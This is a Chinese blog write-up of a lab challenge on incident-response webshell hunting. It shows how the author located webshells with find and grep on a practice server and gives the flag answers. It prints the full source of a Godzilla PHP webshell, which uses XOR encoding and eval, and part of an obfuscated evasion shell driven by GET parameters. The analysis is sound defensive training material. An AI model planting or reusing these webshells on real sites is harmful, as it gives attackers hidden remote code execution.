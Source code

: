 ```yaml
---
title: 玄机 第一章 应急响应 Webshell查杀
description: 玄机 第一章 应急响应 Webshell查杀 WP
pubDate: 10 15 2024
image: https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.png?imageMogr2/format/avif
categories:
  - 网络安全
tags:
  - 靶场
  - 应急响应
  - 玄机靶场
---
```


## 靶场环境

环境：69.230.239.23 / 10.0.10.3

靶机账号密码 root xjwebshell

- 黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 黑客使用的什么工具的shell github地址的md5 flag{md5}
- 黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 黑客免杀马完整路径 md5 flag{md5}

## WP

来到网站根目录，得到 `shell.php`

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-1.png?imageMogr2/format/avif)

没有 flag，find 命令寻找

```shell
find . -name "*.php"
```

寻找后得到 webshell 文件为 `./include/gz.php`，拿到 flag

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-2.png?imageMogr2/format/avif)

观察特征

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

开头的

```php
@session_start();
@set_time_limit(0);
@error_reporting(0);
```

明显是哥斯拉的，github 地址为 `https://github.com/BeichenDream/Godzilla`，加密 MD5 得到 `39392DE3218C333F794BEFEF07AC9257`，得到 flag

第三个 flag 是隐藏的 shell，挨个找呗，发现 `.Mysqli.php` 是加密的。

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-3.png?imageMogr2/format/avif)

对路径 `/var/www/html/include/Db/.Mysqli.php` MD5 加密得到 `AEBAC0E58CD6C5FAD1695EE4D1AC1919`

然后是找免杀马，文件太多了，因为是哥斯拉的木马，所以免杀文件里很有可能还有 key 字样，我们找目录下所有文件内容带 key 的 php 文件

```shell
grep -r "key" --include "*.php" /var/www/html
```

得到了一堆 php 文件，然后就挨个看吧

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.png?imageMogr2/format/avif)

发现一个特殊文件

```php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
```

MD5加密路径得到 flag `EEFF2EABFD9B7A6D26FC1A53D3F7D1DE`

